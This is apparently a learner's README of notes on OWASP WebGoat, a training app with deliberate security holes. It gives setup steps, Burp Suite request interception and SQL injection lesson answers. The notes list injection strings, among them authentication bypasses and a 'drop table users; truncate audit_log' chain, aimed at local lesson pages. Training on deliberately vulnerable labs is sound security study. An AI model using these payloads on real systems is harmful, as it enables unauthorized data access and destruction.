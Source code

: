 # web goat
owasp demo site

# installation

* download from git:
```
https://github.com/WebGoat/WebGoat
git clone git@github.com:WebGoat/WebGoat.git
```

* install maven in kali linux
```
https://tutorialforlinux.com/2017/04/13/how-to-install-latest-apache-maven-on-kali-linux-easy-guide/
```
* install by using mvn
```
source $HOME/.bashrc
mvn clean install

Now let's start by compiling the project.

cd WebGoat
git checkout develop
mvn clean install
Now we are ready to run the project. WebGoat 8.x is using Spring-Boot.

mvn -pl webwolf spring-boot:run
```

* run stand-alone :

```
download
https://github.com/WebGoat/WebGoat/releases
then
java -jar webgoatxxx.jar
then:
http://localhost:8080/WebGoat/login

```

# attack techniques:

I will try to practice test first then categorize them later

1. General

* http/s basics: learn to intercept request by using zap/burpsuite

```
Go General/HTTP basics
Use burp suite to capture get/post method then edit and forward

result:
POST /WebGoat/HttpBasics/attack2 HTTP/1.1
magic_num=36&answer=&magic_answer=36

read the magic_numb then edit it

Identify type of request: post/get
```

* http proxies: learn how to deploy proxy on zap/burpsuite

2. injection flow

  1. sql injection
  * data manipulation language (select, insert, update)
  * data definition language (create, alter, drop)
  * data control language (grant, revoke)

* numeric injection

* combining sql injection techniques
  ```
  special characters
   - /*
    '*/:comment the remainder of the query
   - ; allow query chaining  ex: 'select * from users; drop table users;'
   - || allow string concatenate
   - union : 'Select id, text from news union all select name, pass from users'
   - joins
  ```
* blind sql injection
```
```

  2. examples:
```
- simple sql injection:
serName = Smith' or '1'='1
userName =' or 1=1 --
userID = 1234567 or 1=1
UserName = Smithâ€™;drop table users; truncate audit_log;--

- advance sql injection:
Smith'; select * from user_system_data where '1'='1

-blind sql injection:
https://my-shop.com?article=4
>> SELECT * from articles where article_id = 4

```

  3. practices:
  * simple sql injection
```
http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/6
input: Smith' or '1'='1
then submit

http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/7
input : 123456 or 1=1
then submit

```
  * advance sql injection
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/2
  6.a input: Smith'; select * from user_system_data where '1'='1
  105, dave, dave, ,
  6.b input: dave
  ```

  * combine all: burpsuite: could user repeater module to input data to save time to make request
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/4
  tried : http://sechow.com/bricks/docs/login-1.html but failed

  ```
